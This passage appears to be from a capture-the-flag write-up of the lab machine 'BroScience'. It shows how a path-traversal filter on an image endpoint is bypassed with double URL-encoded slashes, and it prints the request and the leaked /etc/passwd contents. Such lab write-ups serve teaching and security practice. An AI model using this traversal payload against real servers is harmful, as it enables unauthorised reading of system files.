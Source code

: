 ![Register](/assets/images/2023/01/BroScience/Register.png "Register")

I kept looking around. Eventually, I saw the image's URL: `https://broscience.htb/includes/img.php?path=bench.png`. This looked like it could be vulnerable to LFI.

I tried loading `https://broscience.htb/includes/img.php?path=/etc/passwd`. The paged showed `Error: Attack detected`. 

I tried encoding the slashes, it gave me the same error. I kept playing with it, I needed to double URL encode the slashes to get the file.

```http
GET /includes/img.php?path=..%252f..%252f..%252f..%252fetc%252fpasswd HTTP/1.1
Host: broscience.htb
Cookie: PHPSESSID=6drat5f8omo5h6l5hmjinrcdai
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

```http
HTTP/1.1 200 OK
Date: Sun, 29 Jan 2023 16:33:15 GMT
Server: Apache/2.4.54 (Debian)
Content-Length: 2235
Connection: close
Content-Type: image/png

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
```